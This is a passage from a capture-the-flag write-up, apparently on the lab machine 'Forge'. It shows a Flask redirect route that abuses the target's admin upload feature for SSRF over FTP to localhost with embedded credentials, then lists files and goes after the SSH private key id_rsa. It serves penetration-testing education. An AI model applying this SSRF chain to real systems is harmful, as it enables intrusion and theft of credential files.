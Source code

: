 Of course, the base domain `/upload` support FTP (I already knew that
from recon). But there is a `/upload` on `admin.forge.htb` as well. The
announcements page must be talking about that one. I'll use a redirect
to the admin upload page to get it to fetch from FTP.

I'll write a slightly more generic Flask route this time. This route
will do the indirect FTP, and it will allow me to pass a GET parameter,
`f` to specify the file to get if this works:



    @app.route("/3")
    def ftp_via_admin():
        f = request.args.get('f', default='')
        return redirect(f'http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/{f}')  



Submitting `http://10.10.14.6/3` returned a listing of the files in FTP:



    drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
    -rw-r-----    1 0        1000           33 May 31 12:23 user.txt 



`http://10.10.14.6/3?f=user.txt` returns the user flag.

Next I'll try `http://10.10.14.6/3?f=.ssh/`:



    -rw-------    1 1000     1000          564 May 31 12:35 authorized_keys
    -rw-------    1 1000     1000         2590 May 20 08:30 id_rsa
    -rw-------    1 1000     1000          564 May 20 08:30 id_rsa.pub 



I'll grab the `id_rsa`.

### SSRF / Redirection Summary

To summarize this attack:

[![](/img/Forge-redirect.png)*Click for full